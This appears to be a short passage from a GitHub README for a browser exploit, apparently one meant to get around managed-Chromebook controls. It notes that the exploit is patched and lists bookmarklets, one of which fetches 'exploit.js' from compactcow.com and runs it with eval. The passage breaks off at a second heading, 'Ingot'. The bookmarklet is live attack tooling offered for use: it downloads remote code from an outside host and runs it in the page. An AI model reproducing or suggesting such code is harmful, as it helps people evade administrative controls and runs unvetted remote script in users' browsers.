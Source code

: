 **Please note that this exploit has been patched for quite some time**

### Bookmarklets

#### CompactCow GUI

![compactcowgui](img/compactcow.png)

```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

#### Ingot
